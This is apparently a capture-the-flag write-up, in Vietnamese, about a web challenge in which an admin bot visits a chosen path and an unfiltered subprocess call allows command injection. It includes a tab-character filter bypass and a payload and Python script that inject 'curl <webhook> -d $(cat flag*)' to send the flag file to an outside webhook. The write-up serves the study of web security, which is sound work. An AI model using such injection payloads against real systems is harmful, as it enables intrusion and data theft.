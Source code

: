 ![image](../img/3.1.png)

start chall lên mình nhận được 1 feature con bot admin sẽ view url mà chúng ta cấp

![image](../img/3.2.png)

tuy nhiên nó không trả về respone, mình view source

dùng `puppeteer` để view tất cả url được nhập vào 
![image](../img/3.3.png)

tại `/visit` với method `POST` sẽ check xem trong `path` có chứa `cal` hay `%` hay không
![image](../img/3.4.png)

tiếp tục qua `server.py`


tại route `/api/cal` mình focus vào dòng 48, sử dụng `subprocess` truyền vào parameter `modifier` mà không qua filter -> `Command injection`
![image](../img/3.5.png)

Okey: tổng hợp lại chúng ta cần cho con BOT gọi đến `/api/cal` trên server và trigger CMD injection rồi fetch resp.text ra webhook

Trước tiên cần bypass check kí tự `/cal`, khá đơn giản chúng ta chỉ cần sử dụng `/t` đại diện cho khoảng trắng `tab`

payload: 
```
/api/ca\tl?modifier=-100;curl <webhook> -d $(cat flag*)
```

script lấy flag:
```
from requests import *

webhook = "https://webhook.site/5491ab4e-9332-4603-b5dd-0d1e3e6fb4e3"
url = "http://chal.competitivecyber.club:13336"

res = post(f'{url}/visit', data={"path":f"api/ca\tl?modifier=khiem; curl {webhook} -d $(cat flag*)"})
print(res.text)
```

qua webhook lụm flag 
![image](../img/3.6.png)

FLAG: `CACI{1_l0v3_c0mm4nd_1nj3ct10n}`





